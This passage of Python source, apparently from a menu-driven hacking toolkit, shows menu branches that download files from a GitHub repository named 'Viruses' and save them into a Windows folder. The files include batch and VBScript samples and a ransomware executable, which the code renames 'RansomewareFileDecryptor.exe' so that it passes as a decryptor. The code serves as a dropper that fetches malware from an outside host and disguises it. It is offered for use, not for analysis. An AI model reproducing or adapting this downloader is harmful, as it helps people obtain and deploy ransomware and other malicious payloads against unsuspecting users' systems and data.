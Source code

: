         elif menu3 == 6:
            print(""+G+"")
            chunk_size = 1024
            url = 'https://github.com/Ractomes/Viruses/blob/master/samples/cmd.bat?raw=true'
            r = requests.get(url, stream = True)
            size = int(r.headers['content-length'])
            filename = url.split('/')[-1]
            with open(filename, 'wb') as f:
                for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
                    f.write(data)
            os.system("mv 'cmd.bat?raw=true' Windows/Cmd.bat")
            print(fun)#####done
            
        elif menu3 == 7:
            print(""+G+"")
            chunk_size = 1024
            url = 'https://github.com/Ractomes/Viruses/blob/master/samples/capslock.vbs?raw=true'
            r = requests.get(url, stream = True)
            size = int(r.headers['content-length'])
            filename = url.split('/')[-1]
            with open(filename, 'wb') as f:
                for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
                    f.write(data)
            os.system("mv 'capslock.vbs?raw=true' Windows/Capslock.vbs")
            print(fun)#####done
            
        elif menu3 == 8:
            print(""+G+"")
            chunk_size = 1024
            url = 'https://github.com/Ractomes/Viruses/blob/master/samples/alay.vbs?raw=true'
            r = requests.get(url, stream = True)
            size = int(r.headers['content-length'])
            filename = url.split('/')[-1]
            with open(filename, 'wb') as f:
                for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
                    f.write(data)
            os.system("mv 'alay.vbs?raw=true' Windows/Alay.vbs")
            print(fun)#####done
            
        elif menu3 == 9:
            print(""+G+"")
            chunk_size = 1024
            url = 'https://github.com/Ractomes/Viruses/blob/master/samples/ransomeware.exe?raw=true'
            r = requests.get(url, stream = True)
            size = int(r.headers['content-length'])
            filename = url.split('/')[-1]
            with open(filename, 'wb') as f:
                for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
                    f.write(data)
            os.system("mv 'ransomeware.exe?raw=true' Windows/RansomewareFileDecryptor.exe")
            print(fun)#####done
            
